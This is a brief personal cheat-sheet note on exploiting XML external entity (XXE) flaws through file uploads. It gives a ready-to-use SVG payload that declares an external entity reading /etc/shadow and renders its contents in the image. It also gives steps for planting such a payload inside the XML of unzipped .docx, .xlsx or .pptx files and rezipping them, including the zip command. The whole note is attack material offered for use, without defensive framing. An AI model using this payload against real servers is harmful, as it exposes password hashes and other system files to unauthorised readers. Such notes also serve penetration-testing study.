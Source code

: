 

get [[XXE]] from file upload
	1. SVG payload: save the following into file as an `.svg` file and upload it to the server
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE example [ <!ENTITY test SYSTEM "file:///etc/shadow"> ]> 
<svg width="500" height="500"> 
	<circle cx="50" cy="50" r="40" fill="blue" /> 
	<text font-size="16" x="0" y="16">&test;</text> 
</svg>
```
2. `.docx` , `.xlxs`, `.pptx` files
	1. unzip the document file![[Pasted image 20240129184215.png]]
	1. insert your payload into a `.xml` file 
	2. `cd example;zip -r new_example.docx *` 